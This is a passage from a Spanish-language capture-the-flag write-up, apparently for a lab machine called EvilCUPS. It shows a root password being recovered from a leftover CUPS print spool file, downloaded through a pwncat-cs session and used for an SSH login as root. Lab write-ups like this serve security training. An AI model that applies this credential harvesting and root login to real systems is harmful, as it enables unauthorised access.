 Al final del documento encontramos una string interesante, `(Br3@k-G!@ss-r00t-evilcups)`
![Write-up Image](images/Screenshot_10.png)

Igualmente, podemos descargarnos este archivo haciendo uso de la función `download` de `pwncat-cs`
```console
(local) pwncat$ download /var/spool/cups/d00001-001
/var/spool/cups/d00001-001 ━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 12.1/12.1 kB • ? • 0:00:00
[21:19:47] downloaded 12.12KiB in 1.56 seconds                              download.py:71
```

Y si abrimos este documento vemos la credencial `Br3@k-G!@ss-r00t-evilcups`.
![Write-up Image](images/Screenshot_11.png)

Y con esta credencial podemos iniciar sesión por SSH como el usuario `root`
```console
$ ssh root@10.10.11.40
root@10.10.11.40's password: 
Linux evilcups 6.1.0-25-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.106-3 (2024-08-26) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  1 14:29:03 2024 from 10.10.14.8
root@evilcups:~# 
```
